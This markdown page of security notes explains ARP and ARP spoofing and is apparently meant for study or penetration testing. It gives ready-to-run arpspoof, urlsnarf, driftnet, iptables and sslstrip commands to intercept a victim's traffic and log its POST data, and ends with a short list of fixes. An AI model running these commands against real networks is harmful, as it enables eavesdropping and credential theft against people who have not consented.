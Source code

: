 # ARP (Address Resolution Protocol)

> A communication protocol used to discover MAC address associated with a given IPv4 address

## How it works

Machine **A (10.10.10.42)** sends an IP datagram over a LAN to machine **B (10.10.10.98)**: 
- **A** sends a broadcast (ARP request) asking `who has 10.10.10.98`
- **B** sends back a unicast (ARP reply) saying `10.10.10.98 is at 5D.5D.5D.5D.5D.5D`

## Vulnerability

- A host caches MAC addresses in an ARP table that gets updated when a new ARP reply packet is received even if an ARP request was not sent.
- Origin of ARP packets cannot be authenticated.

# ARP Spoofing

> Sending spoofed ARP replies onto a LAN to associate an attacker's MAC address with the IP address of another host to intercept (and modify) traffic meant for that IP address.

## Tools

- [arpspoof (dsniff)](https://www.monkey.org/~dugsong/dsniff/)
- [ettercap](https://www.ettercap-project.org/)
- [bettercap](https://www.bettercap.org/)

## Basic implementation

- Acting as a router requires the attacker to enable IP forwarding
```
echo "1" > /proc/sys/net/ipv4/ip_forward
```
or
```bash
sysctl net.ipv4.ip_forward=1
```

- The attacker tells the victim he is the default gateway
```bash
arpspoof -t <victim> -r <gateway> -i eth0
```

- The attacker tells the default gateway he is the victim
```bash
arpspoof -t <gateway> -r <victim> -i eth0
```

## Post-spoofing

### URL Snarf

```bash
# Output all non-encrypted HTTP traffic
urlsnarf -i eth0
```

### Drift Net

```bash
# Get non-encrypted images or MPEG audio data
driftnet -i eth0 -d ~/drifted
```

### SSL Strip

- Implementation of Moxie Marlinspike's SSL stripping attacks

```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <port>
```
```bash
sslstrip -l <port>
```

```bash
# All POST data is logged into an 'sslstrip.log' file.
cat sslstrip.log
```

## Fixes
- Packet filters
- HTTPS Everywhere


# References

- [RFC](https://tools.ietf.org/html/rfc826)